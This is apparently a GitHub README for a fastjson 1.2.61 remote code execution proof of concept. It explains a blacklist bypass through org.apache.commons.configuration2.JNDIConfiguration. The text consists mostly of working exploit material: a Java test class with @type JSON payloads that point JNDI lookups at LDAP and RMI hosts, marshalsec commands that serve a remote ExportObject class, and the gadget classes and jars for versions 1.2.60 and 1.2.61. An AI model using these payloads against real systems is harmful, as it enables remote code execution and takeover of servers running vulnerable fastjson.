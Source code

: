 # fastjson-1.2.61-RCE

![](./Fastjson-1.2.61-RCE.gif)

## Ps：
官方在https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java 中，将0x7bddd363ad3998c6L
（即1.2.61	8925522461579647174	0x7bddd363ad3998c6L	org.apache.commons.configuration.JNDIConfiguration）加入黑名单，但是未将org.apache.commons.configuration2.JNDIConfiguration加入黑名单，导致1.2.61 bypass.

![](./blacklist.jpg)
![](./JNDIConfiguration.jpg)

## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

![](./fastjson_1_2_61.jpg)

## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java


